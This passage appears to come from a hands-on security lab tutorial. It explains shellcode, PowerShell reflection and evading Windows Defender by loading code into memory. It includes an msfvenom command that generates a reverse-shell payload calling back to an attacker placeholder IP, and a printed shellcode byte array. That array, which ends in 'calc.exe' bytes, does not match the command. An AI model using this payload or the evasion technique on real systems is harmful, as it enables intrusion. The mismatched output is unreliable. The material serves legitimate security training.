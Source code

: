 - **Shellcode**: A piece of code usually used by malicious actors during exploits like buffer overflow attacks to inject commands into a vulnerable system, often leading to executing arbitrary commands or giving attackers control over a compromised machine. Shellcode is typically written in assembly language and delivered through various techniques, depending on the exploited vulnerability.
- **PowerShell**: A powerful scripting language and command-line shell built into Windows for task automation and configuration management. It allows users to interact with system components and is widely used by administrators for legitimate purposes. However, attackers often use PowerShell as a post-exploitation tool because of its deep access to system resources and ability to run scripts directly in memory, avoiding disk-based detection mechanisms.
- **Windows Defender**: A built-in security feature that detects and prevents malicious scripts, including PowerShell-based attacks, by scanning code at runtime. Common bypass methods for evading Defender include obfuscating scripts to disguise malicious content, making it harder for the software to recognise known patterns. Another technique is a reflective injection, where malicious code is loaded directly into memory, avoiding detection by signature-based defences. We will cover the latter one in this task.  
    
- **Windows API**: The Windows Application Programming Interface (API) allows programs to interact with the underlying operating system, giving them access to essential system-level functions such as memory management, file operations, and networking. It serves as a bridge between the application and the operating system, enabling efficient resource handling. The Windows API is crucial because many exploitation techniques and malware rely on it to manipulate processes, allocate memory, and execute shellcodes. Common Windows API functions frequently used by malicious actors include `VirtualAlloc`, `CreateThread`, `WaitForSingleObject`, which we will also use in this task for exploitation.
- **Accessing Windows API through PowerShell Reflection**: Windows API via PowerShell Reflection is an advanced technique that enables dynamic interaction with the Windows API from PowerShell. Instead of relying on precompiled binaries, PowerShell Reflection allows attackers to call Windows API functions directly at runtime. This will enable them to manipulate low-level system processes, making it a primary tool for bypassing security mechanisms, interacting with the operating system, and executing code stealthily.
- **Reverse shell**: A type of connection in which the target (the machine you're trying to hack) initiates a connection back to your attacking machine (in this case, your machine will be the AttackBox). 

## Generating Shellcode


Let's learn how to generate a shellcode to see what it looks like. To do this, we will use a tool called `msfvenom` to get a reverse shell.  

In the AttackBox, open the terminal and enter the command `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKBOX_IP LPORT=1111 -f powershell` that will generate the shellcode. The output will look like the following.  You will require to replace the `ATTACKBOX_IP` with the IP of the AttackBox.

AttackBox Terminal

```shell
root@attackbox:~# msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKBOX_IP LPORT=1111 -f powershell
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of powershell file: 2259 bytes
[Byte[]] $buf = 0xfc,0xe8,0x82,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,
0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0x8b,0x72,0x28,0xf,0xb7,0x4a,0x26,0x31,0xff,0xac,
0x3c,0x61,0x7c,0x2,0x2c,0x20,0xc1,0xcf,0xd,0x1,0xc7,0xe2,0xf2,0x52,0x57,0x8b,0x52,
0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x1,0xd1,0x51,0x8b,0x59,0x20,
0x1,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,0x1,0xd6,0x31,0xff,0xac,
0xc1,0xcf,0xd,0x1,0xc7,0x38,0xe0,0x75,0xf6,0x3,0x7d,0xf8,0x3b,0x7d,0x24,0x75,
0xe4,0x58,0x8b,0x58,0x24,0x1,0xd3,0x66,0x8b,0xc,0x4b,0x8b,0x58,0x1c,0x1,0xd3,
0x8b,0x4,0x8b,0x1,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,
0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,0x8d,0x5d,0x6a,0x1,0x8d,0x85,0xb2,0x0,0x0,
0x0,0x50,0x68,0x31,0x8b,0x6f,0x87,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x68,
0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x3c,0x6,0x7c,0xa,0x80,0xfb,0xe0,0x75,0x5,0xbb,
0x47,0x13,0x72,0x6f,0x6a,0x0,0x53,0xff,0xd5,0x63,0x61,0x6c,0x63,0x2e,0x65,0x78,0x65,0x0    
```